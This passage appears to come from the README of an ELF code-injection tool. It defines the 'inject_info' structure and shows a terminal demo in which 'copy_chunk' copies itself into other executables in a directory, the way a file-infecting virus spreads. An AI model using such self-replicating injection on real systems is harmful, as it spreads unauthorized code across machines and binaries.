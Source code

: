 `inject_info`  is non-standard and is introduced by the `elf_injector` as a way of passing along information to the injected chunk..  It's defined as an array of:

~~~
struct inject_info
{
    unsigned int type;
    unsigned int val;
};
~~~

The supported types are:

~~~
#define II_NULL            0
#define II_CNK_POS         1
#define II_CNK_LEN         2
#define II_CNK_ENT_OFF     3
~~~

The value of `II_CNK_POS` is the position in bytes of the start of the `chunk` in the running executable's file, the value of `II_CNK_LEN` is the length in bytes of the `chunk`, and the value of `II_CNK_ENT_OFF` is the offset in bytes from the beginning of the `chunk` from which to start execution.

The final element in `inject_info` array will have a type of `II_NULL`.

### copy_chunk

`copy_chunk` picks a random executable (that has not yet been injected) in the current working directory, injects itself into the executable, and prints the name of the executable to `stdout`:

~~~
~/elf_injector $ ./elf_injector test ./chunks/copy_chunk_strip.bin 1640
inserted 280 byte thunk at pos 1484, start 0x678
inserted 4604 byte chunk at pos 1764, start 0xd4c
~/elf_injector $ cp test.injected copy_test/test0
~/elf_injector $ cd copy_test
~/elf_injector/copy_test $ ls -la
total 40
drwxr-xr-x 2 kujawk kujawk  4096 Jul 14 18:51 .
drwxr-xr-x 9 kujawk kujawk  4096 Jul 14 18:48 ..
-rwxr-xr-x 1 kujawk kujawk 16264 Jul 14 18:51 test0
-rwxr-xr-x 1 kujawk kujawk  8072 Jul 14 18:47 test1
-rwxr-xr-x 1 kujawk kujawk  8072 Jul 14 18:47 test2
~/elf_injector/copy_test $ ./test0
test2
Testing 123...
~/elf_injector/copy_test $ ./test1
Testing 123...
~/elf_injector/copy_test $ ./test2
test1
Testing 123...
~/elf_injector/copy_test ls -la 
total 56
drwxr-xr-x 2 kujawk kujawk  4096 Jul 14 18:51 .
drwxr-xr-x 9 kujawk kujawk  4096 Jul 14 18:48 ..
-rwxr-xr-x 1 kujawk kujawk 16264 Jul 14 18:51 test0
-rwxr-xr-x 1 kujawk kujawk 16264 Jul 14 18:51 test1
-rwxr-xr-x 1 kujawk kujawk 16264 Jul 14 18:51 test2
~/elf_injector/copy_test $
~~~
